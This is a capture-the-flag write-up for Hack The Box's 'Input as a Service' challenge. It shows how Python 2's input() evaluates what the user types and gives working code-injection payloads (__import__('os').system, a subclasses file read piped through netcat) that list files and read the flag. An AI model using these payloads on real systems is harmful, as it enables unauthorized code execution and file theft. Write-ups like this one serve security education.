```yaml
---
slug: input-as-a-service-cyberapocalypse-2021-ctf
title: Input as a Service - Cyberapocalypse 2021 CTF
description: This is a writeup for the Input as a Service challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Misc.
authors: kiroki
tags: [Cyber Security, CTF]
---
```


This is a writeup for the Input as a Service challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Misc.

### Prompt

In order to blend with the extraterrestrials, we need to talk and sound like them. Try some phrases in order to check if you can make them believe you are one of them.

<!-- truncate -->

### Recon

We can netcat to a service at some address given to us. Upon doing so, we are prompted by the question _"Do you sound like an alien?"_, followed by what looks like a python prompt

```
Do you sound like an alien?
>>>
```

If we supply it something random, it will spit out a python error trace.

```
Do you sound like an alien?
>>> lolwut


Traceback (most recent call last):
  File "input_as_a_service.py", line 16, in <module>
    main()
  File "input_as_a_service.py", line 12, in main
    text = input(' ')
  File "<string>", line 1, in <module>
NameError: name 'lolwut' is not defined
```

### Analysis

We see in the traceback, that we're supplying info to an `input` function inside of python2.x. This method has a well known vulnerability, which is that it tries to run the value of `input()` as code.

We can easily make use of that, and see if we can't invoke the `os` module of python, and maybe do some filesystem recon. We can do that by sending the following line into the input

```python
__import__("os").system("ls")
```

And we will see, that one of the files is indeed `flag.txt`.

### Solution

We can go as complicated as we like, but the most straightforward way to solve this particular challenge, is to invoke the `os` module of python, and try to run `cat` on the file we found `flag.txt`.

```python
[GCC 9.3.0]
Do you sound like an alien?
>>>

 __import__('os').system('cat flag.txt')
CHTB{4li3n5_us3_pyth0n2.X?!}
0
```

And so, we get the flag

```
CHTB{4li3n5_us3_pyth0n2.X?!}
```

I'll throw the following line here as well, for reference

```python
echo 'int(().__class__.__base__.__subclasses__()[40]("flag.txt","r").read())' | nc 188.166.145.178 31960 | grep -o CHTB{.*} --color=none
```
